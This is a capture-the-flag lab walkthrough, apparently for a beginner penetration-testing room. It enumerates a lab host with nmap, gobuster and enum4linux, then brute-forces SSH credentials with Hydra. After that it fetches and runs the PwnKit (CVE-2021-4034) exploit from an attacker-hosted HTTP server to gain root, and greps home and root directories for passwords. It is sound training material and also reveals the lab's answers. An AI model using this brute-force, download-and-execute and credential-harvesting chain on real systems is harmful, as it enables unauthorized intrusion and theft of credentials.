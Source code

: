 ### Find the services exposed by the machine
```BASH
sudo nmap -sV 10.10.26.17
```
![image](https://github.com/user-attachments/assets/c12abb48-bb66-4ff5-962a-397cdf2aab0a)

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the hidden directory on the web server?
```BASH
gobuster dir -u "http://10.10.26.17/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 64
```
![image](https://github.com/user-attachments/assets/a6679aca-3502-417e-8011-9aee2b27c060)

<pre>development</pre>

<span style="line-height:0.5;">&nbsp;</span>

### User brute-forcing to find the username & password
From the Nmap scan, you can see that port 8080 is open. The server is running `Apache Tomcat/9.0.7` and the URL `/manager/html` is accessible.

![image](https://github.com/user-attachments/assets/798851bc-dac7-4bc1-81b9-e39575c0290e)  

The fact that `http://10.10.26.17:8080/manager/html` prompts for authentication confirms that the Tomcat Manager interface is enabled.

<span style="line-height:0.5;">&nbsp;</span>

Run enum4linux:
```BASH
enum4linux -a 10.10.26.17
```
![image](https://github.com/user-attachments/assets/6cb0e81f-98cb-4770-89ea-71451c420cb5)  

<span style="line-height:0.5;">&nbsp;</span>

Run Hydra:
```BASH
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.26.17 ssh
```

<span style="line-height:0.5;">&nbsp;</span>

What is the username? What is the password?
<pre>jan</pre>
<pre>armando</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What service do you use to access the server?
<pre>SSH</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the other user you found?
<pre>kay</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the final password you obtain?
Now you can log in as jan.
```BASH
ssh jan@10.10.134.179
```
From the screenshot, you can confirm that jan has no sudo privileges at all. This user is completely blocked from escalating via sudo.

![image](https://github.com/user-attachments/assets/9c37f154-1877-47a0-a92b-9c9d20941fad)  

![image](https://github.com/user-attachments/assets/27020f18-8c28-4466-ae1e-35751639e86e)

Since vim didn't work for privesc, go back to your list of SUID binaries:
```BASH
ls -l /usr/bin/pkexec
```

![image](https://github.com/user-attachments/assets/a774ea6d-3c95-474f-8f24-c3682d455fac)  

`pkexec` is SUID and dated Jan 2016. This version is vulnerable to [CVE-2021-4034 (PwnKit)](https://ubuntu.com/security/cve-2021-4034).

### On the attacker's machine
Download, compile, and zip the exploit:
```BASH
git clone https://github.com/berdav/CVE-2021-4034.git
cd CVE-2021-4034
make
tar czf pwnkit.tar.gz CVE-2021-4034/
```
![image](https://github.com/user-attachments/assets/057c5997-9621-43fb-a172-2f5cdc2f6ffa)

Start a local HTTP server.
```BASH
sudo python3 -m http.server 9000
```
![image](https://github.com/user-attachments/assets/80bf24ec-2969-4f24-9827-f72c39d9344c)

### On the victim machine:
```BASH
cd /tmp
wget http://10.10.151.188:9000/pwnkit.tar.gz
tar xzf pwnkit.tar.gz
cd CVE-2021-4034
./cve-2021-4034
```
![image](https://github.com/user-attachments/assets/94ada5d6-5561-4037-ade8-6e8372c83933)

Run this command to search through all files in `/root` and `/home`, looking for anything that contains: `pass` or `flag`.
```BASH
grep -rE "pass|flag" /root /home 2>/dev/null
```
![image](https://github.com/user-attachments/assets/66de4a59-218f-4e8d-9c7e-e50c15a8daf6)

At the bottom, you’ll see: `/home/kay/pass.bak:heresareallystrongpasswordthatfollowsthepasswordpolicy$$`. Final password:
<pre>heresareallystrongpasswordthatfollowsthepasswordpolicy$$</pre>


